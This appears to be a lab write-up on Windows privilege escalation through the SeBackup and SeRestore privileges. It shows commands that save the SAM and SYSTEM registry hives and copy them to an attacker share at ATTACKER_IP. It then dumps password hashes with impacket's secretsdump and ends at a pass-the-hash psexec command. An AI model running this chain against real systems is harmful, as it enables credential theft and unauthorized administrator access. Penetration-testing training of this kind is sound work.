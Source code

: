 - SeBackup / SeRestore  
    The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.  
    Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
    <details>
    <summary>DEMO</summary>

    This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:  
    <img src="https://user-images.githubusercontent.com/73976100/224528670-d58b9283-39a0-479e-b713-9ede338e4721.png" width="300">  
    
    Once on the command prompt, we can check our privileges with the following command:  
    <img src="https://user-images.githubusercontent.com/73976100/224528777-25e6fb8b-5cc6-41fe-b617-548ee2a7659d.png" width="600">  

    To backup the SAM and SYSTEM hashes, we can use the following commands:  
    ```
    C:\> reg save hklm\system C:\Users\THMBackup\system.hive
    C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
    ```  

    This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:  
    ```
    user@attackerpc$ mkdir share  

    user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
    ```  

    This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox:  
    ```
    C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
    ```  

    And use impacket to retrieve the users' password hashes:  
    ```
    user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

    [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ```  
    
    We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:  
    ```
    user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.47.234
